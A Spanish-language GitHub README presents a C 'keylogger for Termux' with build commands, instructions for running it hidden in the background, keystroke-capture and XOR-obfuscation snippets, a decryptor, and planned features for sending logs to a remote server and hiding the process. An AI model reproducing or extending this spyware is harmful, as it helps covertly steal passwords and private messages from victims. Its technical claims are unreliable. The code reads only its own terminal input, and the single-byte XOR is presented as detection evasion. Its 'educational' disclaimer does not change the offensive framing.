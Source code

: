 # 🔐 Keylogger en C para Termux

Captura de teclas con cifrado XOR y ejecución en segundo plano

Este proyecto es un keylogger básico en C diseñado para ejecutarse en Termux (Android/Linux). Captura pulsaciones de teclas en tiempo real y las almacena en un archivo cifrado con XOR para evitar detección.

## 📌 Características

- ✅ Captura teclas sin necesidad de presionar Enter.
- ✅ Guarda las teclas en un archivo de log (`log.txt`).
- ✅ Cifra los datos usando XOR (0xAA) para evitar lectura directa.
- ✅ Corre en segundo plano usando `nohup` y `disown`.
- ✅ Descifrado de datos con un programa en C.
- ✅ Filtra caracteres no imprimibles para evitar datos corruptos.

## 📁 Estructura del Proyecto

```plaintext
📂 Keylogger
 ├── keylogger.c   # Captura y cifra teclas
 ├── decrypt.c     # Descifra el archivo log.txt
 ├── README.md     # Documentación del proyecto
 └── log.txt       # Archivo donde se guardan las teclas capturadas
```

## 🔧 Instalación y Uso

### 1️⃣ Clonar el repositorio

    git clone https://github.com/V1nt3r4/keylogger_tool.git
    cd keylogger_tool

### 2️⃣ Compilar el keylogger

    clang keylogger.c -o keylogger

### 3️⃣ Ejecutar el keylogger

    ./keylogger

🔹 Para ejecutarlo en segundo plano:

    nohup ./keylogger > /dev/null 2>&1 &
    disown

🔹 Para detenerlo:

    pkill keylogger

### 4️⃣ Ver el contenido del log (cifrado)

    cat log.txt

### 5️⃣ Descifrar el log

    clang decrypt.c -o decrypt
    ./decrypt

## 📜 Explicación del Código
### 🔹 1️⃣ Captura de teclas (get_key())

    char get_key() {
        struct termios oldt, newt;
        char ch;
        tcgetattr(STDIN_FILENO, &oldt);
        newt = oldt;
        newt.c_lflag &= ~(ICANON | ECHO);
        tcsetattr(STDIN_FILENO, TCSANOW, &newt);
        ch = getchar();
        tcsetattr(STDIN_FILENO, TCSANOW, &oldt);
        return ch;
    }

📌 Lógica:

  Modifica la terminal para desactivar el buffer de línea y eco de caracteres.
    Captura una tecla en tiempo real.
    Restaura la configuración original de la terminal.

### 🔹 2️⃣ Escritura segura en el archivo (log.txt)

    if (isprint(key)) {
    fputc(key ^ XOR_KEY, file);
    fflush(file);
    }

📌 Lógica:

  Filtra caracteres imprimibles para evitar datos corruptos.
    Cifra cada tecla con XOR (^ 0xAA) antes de escribirla en log.txt.
    fflush(file); asegura que los datos se guarden inmediatamente.

### 🔹 3️⃣ Manejo de señales (CTRL+C)

    void handle_exit(int sig) {
        if (file) fclose(file);
        printf("\n[+] Keylogger detenido. Datos guardados en      %s\n", LOG_FILE);
      exit(0);
    }

📌 Lógica:

  Intercepta CTRL+C para evitar que se cierre inesperadamente.
    Cierra correctamente el archivo log.txt antes de salir.

### 🔹 4️⃣ Descifrado de datos (decrypt.c)

    int ch;
    while ((ch = fgetc(file)) != EOF) {
    putchar(ch ^ XOR_KEY); // XOR inverso
    }

📌 Lógica:

  Lee cada carácter del archivo log.txt.
    Aplica XOR inverso (^ 0xAA) para recuperar las teclas originales.
    Muestra el resultado en pantalla.

## ⚠️ Advertencia y Mal Uso Potencial

### Uso Malicioso:

- **Captura de datos sensibles**: En manos de actores maliciosos, el keylogger podría utilizarse para capturar contraseñas, datos bancarios o información personal.
-  **Espionaje**: Un atacante podría monitorear las pulsaciones de teclas de un usuario para espiar conversaciones, correos electrónicos o mensajes privados.
- **Robo de identidad**: La información recopilada podría ser utilizada para suplantar la identidad del usuario y acceder a cuentas personales o corporativas.
- **Exfiltración de datos**: Combinado con técnicas de red, el keylogger puede enviar datos a un servidor remoto sin que el usuario lo note.

## 💻 Aplicaciones en Ciberseguridad
### 🔹 1️⃣ Seguridad Ofensiva (Pentesting)

- Se usa para testear seguridad en sistemas Linux.
- Puede demostrar fallos en la protección de terminales.
- Puede probar la efectividad de antivirus y herramientas de detección.

### 🔹 2️⃣ Seguridad Defensiva

- Ayuda a detectar comportamiento sospechoso en procesos.
- Puede ser usado para analizar técnicas de malware y crear contramedidas.
- Demuestra la importancia de proteger stdin en Linux.

### 🔹 3️⃣ Educación y Entrenamiento

-  Permite entender cómo funciona la captura de eventos de teclado en Linux.
- Introduce el concepto de cifrado XOR en aplicaciones de seguridad.
    Enseña cómo ocultar procesos en sistemas basados en Unix.

### ⚠️ Advertencia Legal

Este keylogger fue desarrollado con fines educativos y de auditoría en ciberseguridad.
El uso de este software en sistemas sin permiso es ilegal y puede tener consecuencias penales.

Úsalo bajo tu propia responsabilidad y solo en entornos controlados.

## 🎯 Mejoras Futuras

🔹 Enviar logs cifrados a un servidor remoto.
🔹 Mejor manejo de procesos y ocultación.
🔹 Soporte para capturar teclas especiales (Shift, Enter).
 
